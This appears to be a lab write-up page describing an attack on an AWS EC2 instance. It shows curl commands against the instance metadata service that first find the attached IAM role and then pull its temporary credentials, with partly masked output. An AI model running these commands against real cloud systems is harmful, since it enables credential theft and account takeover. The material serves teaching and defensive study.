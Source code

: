 ### Role Discovery

The first step in the attack is discovering what IAM role is attached to the compromised EC2 instance. Every EC2 instance with an attached IAM role can query its own metadata to discover the role name.

**Command Executed**:
```bash
sh-4.2$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
A4L-InstanceRole-TDHLFluqhnhA
```

**Explanation**: The attacker uses the curl command to query the instance metadata service at the special IP address 169.254.169.254. This IP is only accessible from within the EC2 instance itself. The endpoint `/latest/meta-data/iam/security-credentials/` returns the name of the IAM role attached to the instance.

**Visual Evidence**:

![Role Discovery](../evidence/screenshots/image.png)
*Screenshot showing successful extraction of IAM role name from EC2 instance metadata service*

**What This Means**: The attacker now knows that this EC2 instance is using an IAM role named "A4L-InstanceRole-TDHLFluqhnhA". This role name is needed to retrieve the actual credentials in the next step.

### Credential Extraction

With the role name discovered, the attacker can now retrieve the full set of temporary security credentials associated with this role. These credentials include an access key, secret key, and session token.

**Command Executed**:
```bash
sh-4.2$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/A4L-InstanceRole-TDHLFluqhnhA
{
"Code" : "Success",
"LastUpdated" : "2025-07-22T01:15:24Z",
"Type" : "AWS-HMAC",
"AccessKeyId" : "ASIA****************G3WA",
"SecretAccessKey" : "bMJW************************************k+je",
"Token" : "IQoJb3JpZ2luX2VjEMr//////////wEaCXVzLWVhc3QtMSJH[...SANITIZED_FOR_SECURITY...]A7A==",
"Expiration" : "2025-07-22T07:50:38Z"
}
```

**Explanation**: By appending the role name to the metadata endpoint, the attacker receives a JSON response containing the complete set of temporary AWS credentials. These credentials are automatically rotated by AWS but remain valid for several hours.
